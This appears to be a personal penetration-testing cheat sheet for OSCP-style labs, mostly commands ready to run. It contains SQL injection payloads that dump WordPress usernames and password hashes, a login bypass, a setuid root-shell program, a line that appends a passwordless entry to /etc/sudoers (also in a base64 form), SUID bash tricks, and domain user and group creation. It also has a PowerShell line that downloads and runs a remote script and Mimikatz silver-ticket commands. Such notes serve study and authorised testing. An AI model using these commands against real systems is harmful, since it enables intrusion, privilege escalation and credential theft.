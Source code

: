 ### tar unzip
```
tar -xvf filename
```
### start bloodhound
on mac terminal
```
conda deactivate
cd ~/oscp
./start-neo4j.sh
```
```
open bloodhound
```
#### to find certain files
```
find / -name *.ovpn 2>/dev/null
```
2>1 means redirect standard err to standard out
### sql injection (mysql)
#### union based
enum tables
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"];
```
table to target: wp_users
enum columns
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"];
```
columns to target: user_login , user_pass
dump data
```
OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,concat(user_login,'~',user_pass),11 FROM wp_users#"];
```
### sql injection login bypass
targeting username:
```
admin'-- - (means backend sql will only validate username without looking at password)
```
e.g. original:
```
select user,pass from users where user = 'admin' and password = 'pwd';
```
injected:
```
select user,pass from users where user = 'admin'-- -' and password = 'pwd';
```
### wordpress shell plugins
```
/usr/share/seclists/Web-Shells/WordPress
```

### nslookup
```
nslookup
>server: 10.10.10.x
>10.10.10.x -- to check for the dns info
```

### c setuid shell
```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
### add user to sudoers
```
echo 'reader ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```
workaround with base64 - use cyberchef
![[Screenshot 2021-12-19 at 8.50.59 PM.png]]
```
echo "cmVhZGVyIEFMTD0oQUxMKSBOT1BBU1NXRDpBTEw=" | base64 -d >> /etc/sudoers
```
check:
```
sudo -l
```
To get a stable python shell
```
python -c 'import pty;pty.spawn("/bin/bash")';

```

Find file:
```
find / -name xxx.php
```
### copy bash and make suid (root priv)
find bash location
```
which bash
```
copy out bash + set suid 
```
cp /usr/bin/bash /tmp/mybash
chmod +s /tmp/mybash
```
activate the bash with suid
```
/tmp/mybash -p
```
oneliner
```
cp /bin/bash /tmp/mybash; chmod +s /tmp/mybash
```
### attack nfs
```
showmount -e
```
### set environment variables
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### SSH Brute force using metasploit

https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits
### windows creating users
```
net user john password /add

to add to domain (need domain admin. or genericAll on the domain)

net user john password /add /domain
```
### windows adding users to local groups
```
add to local group

net localgroup administrators john /add

to check

net localgroup administrators 
```
### windows adding users to domain groups
```
add to domain group

net group "EXCAHNGE WINDOWS PERMISSSIONS" john /add /domain

to check

net group "EXCAHNGE WINDOWS PERMISSSIONS" /domain
```
### find SPNs
```
Get-domainuser -SPN |select name,serviceprincipalname

name   serviceprincipalname
----   --------------------
krbtgt kadmin/changepw
```
### kerberos silver ticket attack (aka pass the ticket)
-> requirements: Hash of target service account, SID of target domain
-> to find domain SID -> load powerview
```
powershell
```
```
iex(new-object net.webclient).downloadstring('http://192.168.49.79/view.txt')
```
-> now load mimikatz to pass the ticket (silver ticket attack)
```
c:\windows\tasks\m.exe "privilege::debug"
```
```
kerberos::golden /user:offsec /domain:TARGET_DOMAIN /sid:TARGET_DOMAIN_SID /target:TARGET_URL /service:TARGET_SERVICE /rc4:TARGET_SERVICE_ACCOUNT_HASH /ptt
```
```
kerberos::golden /user:offsec /domain:corp1.com /sid:S-1-5-21-3746766531-1610887775-1523133702 /target:CorpWebServer.com /service:HTTPS /rc4:IISSVC_HASH /ptt
```
